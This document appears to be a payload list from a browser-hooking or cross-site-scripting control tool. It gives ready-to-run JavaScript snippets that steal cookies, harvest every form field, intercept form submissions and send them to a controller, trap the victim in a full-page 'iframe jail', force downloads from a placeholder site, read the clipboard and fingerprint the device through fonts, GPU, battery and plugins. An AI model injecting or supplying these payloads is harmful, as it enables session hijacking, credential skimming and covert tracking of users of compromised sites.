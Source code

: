 # Default
#### Grab cookies
```javascript
data=document.cookie;
```
#### Get location url
```javascript
data = document.location.href;
```
#### Get os and cpu info
```javascript
data = navigator.platform;
```
#### Vibrate for one second
###### Only for mobile devices
```javascript
navigator.vibrate(1000); data=0;
```
#### Get misc info (better for mobile)
```javascript
data="vendor: "+navigator.vendorSub+","+navigator.vendor+";Product: "+navigator.productSub+";Core: "+navigator.hardwareConcurrency+";maxTouchPoints: "+navigator.maxTouchPoints;
```
#### Send popup message
```javascript
alert('text'); data=0;
```
#### Grab all inputs from all forms:
```javascript
var kvpairs = [];
var iframe = document.getElementById("ifrm");
if (iframe != null)
    var doc = iframe.contentDocument;
else
    var doc = document;
var forms = doc.getElementsByTagName("form");
for (var j = 0;j < forms.length;j++) {
    var form = forms[j];
    for ( var i = 0; i < form.elements.length; i++ ) {
       var e = form.elements[i];
       kvpairs.push(encodeURIComponent(e.name) + "=" + encodeURIComponent(e.value));
    }
}
data = kvpairs.join("&");
```

#### Get information about plugins
```javascript
data = JSON.stringify(navigator.plugins);
```

#### Get browser information
```javascript
data = navigator.appName+" "+navigator.appCodeName+" "+navigator.appVersion;
```
#### Enumerate navigator properties
```javascript
data="";for (var p in navigator) data+=p.toString()+";";
```
#### Get screen information
```javascript
data="width: "+screen.width+",height: "+screen.height+",colorDepth: "+screen.colorDepth+",pixelDepth: "+screen.pixelDepth;
```
#### Get battery information
```javascript
var Battery=function(){function s(e){n=e,i(n)}function o(t){for(var n in e.split(" "))t.addEventListener(n,s)}var e="chargingchange chargingtimechange dischargingtimechange levelchange",t=navigator.battery||navigator.mozBattery||navigator.getBattery,n=null,r=function(){},i=function(){};return self.getStatus=function(e){n==="not supported"?e(null,n):n?e(n):r=e},self.onUpdate=function(e){i=e},t instanceof Function?t.call(navigator).then(function(e){n=e,r(n),o(n)},function(){n="not supported"}):t?(n=t,o(t)):n="not supported",self}(Battery||{});
Battery.getStatus(function(status, error) {
  if(error) {
    console.error('Battery status is not supported');
    return;
  }
  data='Level: ' + Math.floor(status.level * 100) + '%;Charging: ' + status.charging+';Time until charged: ' + status.chargingTime+';Battery time left: ' + status.dischargingTime;
});
```
#### Delete client registration
```javascript
eraseCookie('_uidk'); localStorage.clear(); data=0;
```
#### Iframe jail
```javascript
document.body.innerHTML = "<div style='padding:0;margin:0;border:none;width:100%;height:100%;position:absolute;left:0;top:0;overflow:hidden;'><iframe id='ifrm' onload='window.history.replaceState(null, null, this.contentWindow.location.href);' style='padding:0;margin:0;border:none;width:100%;height:100%;left:0;top:0;' src='"+document.location.href+"'></iframe></div>"; data='captured';
```
#### Force (every kind of) file to be downloaded (html5)
```javascript
var fdwnl = document.createElement("a"); fdwnl.href='http://yoursite.com/yourfile.html'; fdwnl.id='fdwnl'; var dwn=document.createAttribute('download');fdwnl.setAttributeNode(dwn); fdwnl.click();
```
#### Force an update of the client information retrieved server side
```javascript
eraseCookie('_uidku');data=0;
```
#### Intercept forms submit
```javascript
var iframe = document.getElementById("ifrm");
if (iframe != null)
    var doc = iframe.contentDocument;
else
    var doc = document;
var forms = doc.getElementsByTagName("form");
for (var j = 0;j < forms.length;j++) {
    var form = forms[j];
    form.onsubmit = function(){ inthandler(this); }
}
function inthandler(form) {
    var kvpairs = [];
    data = "form submitted! id="+form.id+"&name="+form.name+"&method="+form.method+"&action="+form.action+"&";
    for ( var i = 0; i < form.elements.length; i++ ) {
       var e = form.elements[i];
       kvpairs.push(encodeURIComponent(e.name) + "=" + encodeURIComponent(e.value));
    }
    data = kvpairs.join("&");
    /* Force to send data instantly */
    reloadjs(uid,data);
}
```
# Extra
#### Detect installed font (and the os)
```javascript
var Detector = function() {
		// a font will be compared against all the three default fonts.
		// and if it doesn't match all 3 then that font is not available.
		var baseFonts = ['monospace', 'sans-serif', 'serif'];

		//we use m or w because these two characters take up the maximum width.
		// And we use a LLi so that the same matching fonts can get separated
		var testString = "mmmmmmmmmmlli";

		//we test using 72px font size, we may use any size. I guess larger the better.
		var testSize = '72px';

		var h = document.getElementsByTagName("body")[0];
		// create a SPAN in the document to get the width of the text we use to test
		var s = document.createElement("span");
		s.style.fontSize = testSize;
		s.innerHTML = testString;
		var defaultWidth = {};
		var defaultHeight = {};

		for (var index in baseFonts) {
		    //get the default width for the three base fonts
		    s.style.fontFamily = baseFonts[index];
		    h.appendChild(s);
		    defaultWidth[baseFonts[index]] = s.offsetWidth; //width for the default font
		    defaultHeight[baseFonts[index]] = s.offsetHeight; //height for the defualt font
		    h.removeChild(s);
		}

		function detect(font) {
		    var detected = false;
		    for (var index in baseFonts) {
		        s.style.fontFamily = font + ',' + baseFonts[index]; // name of the font along with the base font for fallback.
		        h.appendChild(s);
		        var matched = (s.offsetWidth != defaultWidth[baseFonts[index]] || s.offsetHeight != defaultHeight[baseFonts[index]]);
		        h.removeChild(s);
		        detected = detected || matched;
		    }
		    return detected;
		}
		this.detect = detect;
	}
var fonts = [];
var d = new Detector();
/* Windows fonts */
fonts.push("Georgia"); fonts.push("Times New Roman"); fonts.push("Tahoma"); fonts.push("Verdana");
/* MAC fonts */
fonts.push("Apple Chancery"); fonts.push("Apple Symbols"); fonts.push("Apple Braille");
/* Linux fonts */
fonts.push("Helvetica"); fonts.push("Utopia"); fonts.push("FreeMono"); fonts.push("FreeSerif");
data="";
for (i = 0; i < fonts.length; i++) {
    if(d.detect(fonts[i])) data += fonts[i]+";";
}
```
#### Get memory information
###### Supported only by some old browser
```javascript
data = "totalJSHeapSize="+console.memory.totalJSHeapSize+";jsHeapSizeLimit="+console.memory.jsHeapSizeLimit+";usedJSHeapSize="+console.memory.usedJSHeapSize;
```
#### Get GPU information
##### Supported only by some (probably old) browser
```javascript
var canvas = document.createElement("canvas");
gl = canvas.getContext("experimental-webgl");
if (gl==null) data="Unable to retrieve this information";
else data = "GPU: "+gl.getParameter(gl.getExtension("WEBGL_debug_renderer_info").UNMASKED_RENDERER_WEBGL)+" "+gl.getParameter(gl.getExtension("WEBGL_debug_renderer_info").UNMASKED_VENDOR_WEBGL);
```
#### Get text in the clipboard
###### Only for IE, ask for permission
```javascript
data=window.clipboardData.getData('Text');
```
#### Know if the page is hidden
###### It's true only when is opened another tab or the browser is minimized
```javascript
function isPageHidden(){
     return document.hidden || document.msHidden || document.webkitHidden || document.mozHidden;
}
data="Page hidden: "+isPageHidden();
```

